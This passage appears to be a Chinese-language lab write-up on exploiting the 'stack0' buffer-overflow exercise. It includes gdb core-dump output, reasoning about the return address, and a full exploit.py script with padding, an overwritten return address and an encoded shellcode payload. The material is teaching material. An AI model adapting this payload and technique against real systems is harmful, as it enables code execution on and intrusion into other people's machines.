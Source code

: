取其中的0xf773813b,替换exploit.py中jmp_esp="\x3b\x81\x73\xf7",上图中选择的/lib/i386-linux-gnu/ld-2.19.so应该是随着操作系统启动加载到系统内存中的可用动态链接库文件

运行exploit.py,结果依然不行，这个jmp_esp还是没有被执行，可能是没有找到这个地址，不理解，暂且不管这个问题

```
python exploit.py
----------------outpout:------------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�A>4P���do<$3ɱ1U�da��N>ʪ���SF
         91!z�ik\Dz��5�
you have changed the 'modified' variable
Segmentation fault (core dumped)
┌─[root@x0day] - [~/桌面] - [Mon Jun 06, 07:53]
└─[$] <> gdb -q -c core 
[New LWP 7435]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xf773813b in ?? ()
(gdb) disas 0xf773813b
No function contains specified address.
-----------------end----------------------

```

无法有效利用jmp esp的方法,直接在main_ret位置上填充紧跟其后的shellcode的开始的地址，也即address(main_ret位置在内存中的地址0xffffd4fc)+0x4的结果:

shellcode_addr=0xffffd500

由于有00，在调用gets时系统复制从终端输入的超长字符串会提前停止，所以不能取0xffffd500,取成0xffffd501,在原来shellcode前面加一个nop(\x90),重新构造输入链：

"a"*80+"\x01\xd5\ff\xff"+"\x90"+shellcode

将exploit.py中jmp_esp替换为jmp_esp="\x01\xd5\xff\xff",并在shellcode前面加一个"\x90",新的exploit.py如下:

```
------------------------exploit.py-------------------------------
#/usr/bin/python
import os
import sys
buf =  "\x90"
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
buf += "\x8b\xf4\xbe\x2c"

jmp_esp="\x01\xd5\xff\xff"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
----------------------------end----------------------------------

```
